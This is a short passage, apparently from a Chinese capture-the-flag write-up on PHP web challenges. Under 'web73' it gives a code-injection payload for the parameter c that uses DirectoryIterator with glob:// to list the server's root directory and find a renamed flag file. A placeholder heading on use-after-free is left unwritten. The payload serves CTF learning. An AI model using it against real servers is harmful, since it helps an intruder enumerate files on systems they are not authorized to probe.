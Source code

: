 ```php

```

记得要转url

![image-20241129232845637](assets/image-20241129232845637.png)

##### 所以什么是uaf呢？

（先挖个坑回头补）

#### web73

这一题和上一题的区别其实就是flag的文件改名了，我们用上一题的方法读一下文件

```
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```

